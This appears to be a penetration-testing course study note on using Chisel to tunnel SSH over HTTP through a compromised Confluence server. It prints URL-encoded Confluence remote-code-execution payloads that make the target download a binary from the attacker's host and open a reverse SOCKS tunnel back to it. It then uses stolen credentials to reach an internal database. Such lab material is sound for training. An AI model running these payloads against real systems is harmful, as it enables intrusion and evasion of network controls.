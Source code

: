 ```yaml
---
tags: chisel
---
```

## HTTP Tunneling Fundamentals

Scenario:
![[Pasted image 20240826153020.png]]
- we have compromised CONFLUENCE01, and can execute commands via HTTP requests
- a deep packet inspection (DPI) solution is terminating all outbound traffic except HTTP and all inbound ports on CONFLUENCE01 are blocked except TCP/8090

Goal: We have credentials for the PGDATABASE01 server, but need to figure out how to SSH directly there through CONFLUENCE01. We need a tunnel into the internal network, but it must resemble an outgoing HTTP connection from CONFLUENCE01.

## HTTP Tunneling with Chisel

[Chisel](https://github.com/jpillora/chisel): 
- an HTTP tunneling tool that encapsulates data stream within HTTP
- also uses SSH protocol within the tunnel to encrypt our data
- uses client-server model
- can run on macOS, Linux, and Windows, and on various architectures

Plan:
![[Pasted image 20240826161810.png]]
- Chisel option: reverse port forwarding (similar to SSH remote port forwarding)
- run Chisel server on our Kali
- Chisel client on CONFLUENCE01
- Chisel will bind a SOCKS proxy on Kali
- Chisel server will encapsulate whatever we send through the SOCKS port and push it through the SSH-encrypted HTTP tunnel
- Chisel client will decapsulate it and push it wherever it is addressed

Steps:
1. Copy Chisel client binary to CONFLUENCE01:
   Since in this case both CONFLUENCE01 and our Kali machine are both amd64 Linux machines, we can serve the same binary we have on the Kali machine
	1. Serve Chisel binary on Kali:
	   `sudo cp $(which chisel) /var/www/html/`
	   `sudo systemctl start apache2`
	2. Format this command `wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel` to work with the known RCE exploit on CONFLUENCE01:
	   `curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngine ByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27 bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20- O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/`\
	3. Check the Apache log on Kali to make sure that we received the request:
	   `tail -f /var/log/apache2/access.log`
2. Allow reverse port forwarding on Kali with Chisel:
   `chisel server --port 8080 --reverse`
	- `server`: start binary as server
	- `--port`: specify bind port
	- `--reverse`: allow reverse port forward
3. On Kali, run tcpdump to log Chisel traffic:
   `sudo tcpdump -nvvvXi tun0 tcp port 8080`
4. Start Chisel client from the web shell:
   Use the command `/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &`
	- `192.168.118.4:8080`: connect to the server running on Kali
	- `R:socks`: create reverse SOCKS tunnel
	- `> /dev/null 2>&1 &`: shell redirections to force process to run in background (frees up our shell)
	Convert the above into Confluence injection payload :
	`curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngine ByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27 bash%27%2C%27- c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29% 7D/`
5. Check tcpdump for traffic from the Chisel client to the Chisel server (should be instantaneous). Our Chisel server should have also logged an inbound connection.
6. Check status of our SOCKS proxy:
   `ss -ntplu`
   Our SOCKS proxy port 1080 is listening on the loopback interface of our Kali machine.
7. To run SSH through a SOCKS proxy, need to use Ncat (not Netcat):
   `sudo apt install ncat`
8. Pass an Ncat command to ProxyCommand:
   `ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215`
	- ProxyCommand is a configuration option of SSH
	- `ncat`
		- `--proxy-type socks5`: use socks5 protocol
		- `--proxy 127.0.0.1:1080`: use this proxy socket
		- `%h %p`: the SSH command host and port values, which SSH will fill in before running the command
9. We should get a shell to PGDATABASE01
   
